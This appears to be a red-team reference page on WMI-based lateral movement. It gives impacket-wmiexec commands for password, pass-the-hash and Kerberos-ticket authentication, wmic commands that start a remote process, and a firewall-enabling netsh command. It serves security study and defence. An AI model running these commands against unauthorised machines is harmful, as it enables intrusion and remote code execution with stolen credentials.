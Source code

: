 ```yaml
---
label: MS-WMI
subLabel: (WmiExec)
---
```


# MS-WMI (Windows Management Instrumentation Remote Protocol) for Lateral Movement

> **Requirements**
>
> * Credentials (password, NT hash, Kerberos TGT) of a member of the local **Administrators** group on the target machine.
> * WMI allowed on firewall (by default: allowed on server, filtered on client machine).

WMI protocol is commonly used for remote machine administration tasks. WMI is accessed via negotiated TCP port (not a named pipe). It is separately handled by firewall rule. Logon via WMI is of the **Network type** (no reusable credentials).

Linux:

```bash
# Using password
impacket-wmiexec $domain/$user:$password@$host

# Using NT hash
impacket-wmiexec -hashes :$nt_hash $domain/$user@$host

# Using Kerberos TGT
export KRB5CCNAME=$tgt_ccache_file
impacket-wmiexec $hostname -k -no-pass -dc-ip $dc_ip
```

Windows:

> **IMPORTANT**: Built-in `wmic` has not been available since Windows 11.

WMI is very powerful. It can manage processes, services and scheduled tasks. Here I will show only a very basic use to create a process on a remote host. Note that firing this command will not return output. We need to save the output to a file and download it through another channel (e.g. via SMB).

```powershell
# Using password
wmic /user:$domain\$user /password:$password /node:$host process call create "cmd.exe /c whoami.exe > C:\output.txt"

# Using Kerberos TGT (in-memory)
wmic /node:$host process call create $command
```

Keep in mind that there is a lof of techniques for executing code on a remote host using WMI and new ones are being discovered all the time.

## Enable WMI

```powershell
# Enable firewall rules
netsh advfirewall firewall set rule group="windows management instrumentation (wmi)" new enable=yes
```

## Resources

* [Microsoft, _User Account Control and WMI_](https://learn.microsoft.com/en-us/windows/win32/wmisdk/user-account-control-and-wmi)
* [Crowdstrike, _Defense Against the Lateral Arts: Detecting and Preventing Impacket's Wmiexec_](https://www.crowdstrike.com/blog/how-to-detect-and-prevent-impackets-wmiexec/)
* [Philip Tsukerman, _Expanding Your WMI Lateral Movement Arsenal_](https://www.youtube.com/watch?v=RRc_3c5diC4)
* [Raj Chandel, _Lateral Movement: WMI_](https://www.hackingarticles.in/lateral-movement-wmi/)
